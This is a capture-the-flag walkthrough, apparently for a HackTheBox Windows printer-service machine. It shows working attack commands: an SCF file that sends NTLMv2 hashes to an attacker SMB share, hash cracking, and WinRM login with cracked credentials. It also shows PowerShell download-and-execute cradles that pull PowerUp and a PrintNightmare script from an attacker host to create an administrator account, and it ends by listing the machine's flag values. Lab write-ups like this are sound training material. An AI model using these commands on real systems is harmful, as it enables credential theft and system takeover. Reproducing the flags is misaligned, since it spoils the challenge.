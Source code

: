 ### Step 1: Initial Reconnaissance

Start by gathering information about the target machine. You can use tools like `nmap` to scan for open ports and services. In this case, we've found three open ports: 5985 (winrm), 445 (smb), and 80 (http).

### Step 2: SMB Enumeration

We will use the tool `crackmapexec` to collect information about the machine through the open SMB port (port 445). Run the following command:

```bash
crackmapexec smb 10.10.11.106
```

You can also list network-level shared resources using:

```bash
crackmapexec smb 10.10.11.106 --shared
```

Alternatively, you can use `smbmap`:

```bash
smbmap -H 10.10.11.106 -n 'null'
```

If no resources can be listed, you will need valid credentials for further access.

### Step 3: Web Vulnerability Assessment

Check the website hosted on port 80 (http) for vulnerabilities and user enumeration using a tool like `whatweb`:

```bash
whatweb 10.10.11.106
```

Upon entering the website, it asks to log in. I try with default credentials "admin:admin" and gain access to the web. It's a printer service.

### Step 4: SCF File Attack

There's an application where I can upload a printer firmware, and it seems there's a testing team that checks the uploaded file. I can attempt an SCF File attack by abusing the icon (In an SCF file attack, the attacker creates a specially crafted SCF file that takes advantage of the way Windows handles these shortcut files. When the victim opens or even previews the SCF file, Windows automatically attempts to load icon resource information from it. This automatic behavior can be exploited by attackers to gather sensitive information like NTLMv2 hashes when the victim accesses the malicious SCF file over an SMB (Server Message Block) share.) Create an `.scf` file with the following content:

```plaintext
[Shell]
Command=2
IconFile=\\10.10.14.4\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Then, mount a shared resource via SMB on your machine with Impacket smbserver:

```bash
impacket-smbserver share $(pwd) -smb2support
```

This will allow you to obtain the NTLMv2 hash.

### Step 5: Hash Cracking

Crack the obtained NTLMv2 hash using a tool like `john` with a wordlist:

```bash
john --wordlist=rockyou.txt hash
```

This step will give you valid credentials.

### Step 6: Verification

Verify the obtained credentials using `crackmapexec` for WinRM access:

```bash
crackmapexec winrm 10.10.11.106 -u 'tony' -p 'liltony'
```

If successful, `crackmapexec` will return "Pwn3d," indicating the user is in the "remote management users" group.

### Step 7: Access and Privilege Escalation

Gain access to the target machine using `evil-winrm`:

```bash
evil-winrm -i 10.10.11.106 -u 'tony' -p 'liltony'
```

Once inside, check your privileges:

```bash
whoami /priv
whoami /all
```

### Step 8: Privilege Escalation Techniques

Use `powerUp.ps1` to search for privilege escalation vectors:

- Download `PowerUp.ps1` from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1).
- Add `Invoke-AllChecks` to the end of the file.
- Execute the script on the victim's machine.

```bash
# On your machine
python -m http.server 80

# On the victim's machine
PS> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/PowerUp.ps1')
```

If this doesn't yield much, consider using `winpeas`, a more comprehensive privilege escalation tool:

- Download the `winpeas.exe` binary from [PEASS-ng](https://github.com/carlospolop/PEASS-ng/releases/tag/20230903-188479ae).
- Upload it to the victim's machine and run it.

```bash
# On the victim's machine
mkdir C:\Windows\temp\Privesc
cd C:\Windows\temp\privesc
upload winpeas.exe
```

### Step 9: Print Spooler Exploitation

Discover vulnerabilities in the print spooler service. Exploit the "printnightmare" vulnerability using the `CVE-2021-1675.ps1` script:  https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1

```bash
# On your machine
python -m http.server 80

# On the victim's machine
PS> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/nightmare.ps1')
PS> Invoke-Nightmare -DriverName "Xerox" -NewUser "kvzlx" -NewPassword "kvzlx1234@"
```

This creates a user in the Administrator group, granting escalated privileges.

With the successful privilege escalation, you have completed the penetration testing and privilege escalation on the target machine.
user flag 3bb8b07e2fd0e1071f47b871970a5977
root flag 7d0c42c6de00f5debc3d555b629c1b9d

---

